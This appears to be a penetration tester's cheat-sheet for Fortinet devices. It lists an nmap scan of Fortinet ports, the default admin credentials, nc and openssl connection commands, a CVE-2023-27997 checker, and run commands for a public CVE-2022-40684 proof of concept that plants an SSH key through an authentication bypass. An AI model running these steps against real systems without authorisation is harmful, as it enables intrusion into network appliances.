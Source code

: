 # Ports

![[fortinet-mindmap.png]]

## Scan

```bash
nmap -sV -sC -iL targets-fortinet.txt -v -p514,541,666,701,1003,8008,8010,8888,8890,9443,10443,13000,13001,13002,13003,13004,13005,13006,13007,13030,13031,13032,13033,13034,13035,13036,13037,13038,13039 -oN fortigate
```

## 443 - Fortinet

>**Default credentials :** admin:

## 541 - Fortinet SSL/VPN

```bash
# INTERACT
openssl s_client -connect $ip:541

# or nc

nc $ip 541
```

## 10443/8443 - Fortigate SSL/VPN
### Check for CVE
- https://github.com/BishopFox/CVE-2023-27997-check

```bash
git clone https://github.com/BishopFox/CVE-2023-27997-check
cd CVE-2023-27997-check
python3 -m venv venv
source venv/bin/activate
python3 -m pip install -r requirements.txt

# usage 
python3 CVE-2023-27997-check.py $ip $port
```

## CVE-2022-40684
- https://github.com/horizon3ai/CVE-2022-40684
>This POC abuses the authentication bypass vulnerability to set an SSH key for the specified user.
>FortiOS version 7.2.0 through 7.2.1 and 7.0.0 through 7.0.6, 
>FortiProxy version 7.2.0 and version 7.0.0 through 7.0.6
>FortiSwitchManager version 7.2.0 and 7.0.0

```bash
git clone https://github.com/horizon3ai/CVE-2022-40684.git
cd CVE-2022-40684
python3 CVE-2022-40684.py -t 10.10.10.1 --username admin --key-file ~/.ssh/id_rsa.pub
```